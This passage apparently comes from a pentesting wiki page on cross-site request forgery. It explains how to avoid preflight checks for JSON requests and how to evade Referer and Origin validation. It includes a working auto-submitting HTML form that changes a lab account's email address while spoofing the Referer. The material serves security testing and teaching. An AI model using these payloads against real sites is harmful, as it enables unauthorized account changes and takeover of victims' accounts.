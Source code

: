 ### Bypassing Preflight Requests for JSON Data

When attempting to send JSON data via a POST request, using the `Content-Type: application/json` in an HTML form is not directly possible. Similarly, utilizing `XMLHttpRequest` to send this content type initiates a preflight request. Nonetheless, there are strategies to potentially bypass this limitation and check if the server processes the JSON data irrespective of the Content-Type:

1. **Use Alternative Content Types**: Employ `Content-Type: text/plain` or `Content-Type: application/x-www-form-urlencoded` by setting `enctype="text/plain"` in the form. This approach tests if the backend utilizes the data regardless of the Content-Type.
2. **Modify Content Type**: To avoid a preflight request while ensuring the server recognizes the content as JSON, you can send the data with `Content-Type: text/plain; application/json`. This doesn't trigger a preflight request but might be processed correctly by the server if it's configured to accept `application/json`.
3. **SWF Flash File Utilization**: A less common but feasible method involves using an SWF flash file to bypass such restrictions. For an in-depth understanding of this technique, refer to [this post](https://anonymousyogi.medium.com/json-csrf-csrf-that-none-talks-about-c2bf9a480937).

### Referrer / Origin check bypass

**Avoid Referrer header**

Applications may validate the 'Referer' header only when it's present. To prevent a browser from sending this header, the following HTML meta tag can be used:

```xml
<meta name="referrer" content="never">
```

This ensures the 'Referer' header is omitted, potentially bypassing validation checks in some applications.

**Regexp bypasses**

{% content-ref url="ssrf-server-side-request-forgery/url-format-bypass.md" %}
[url-format-bypass.md](ssrf-server-side-request-forgery/url-format-bypass.md)
{% endcontent-ref %}

To set the domain name of the server in the URL that the Referrer is going to send inside the parameters you can do:

```html
<html>
  <!-- Referrer policy needed to send the qury parameter in the referrer -->
  <head><meta name="referrer" content="unsafe-url"></head>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac651f671e92bddac04a2b2e008f0069.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      // You need to set this or the domain won't appear in the query of the referer header
      history.pushState("", "", "?ac651f671e92bddac04a2b2e008f0069.web-security-academy.net")
      document.forms[0].submit();
    </script>
  </body>
</html>
```
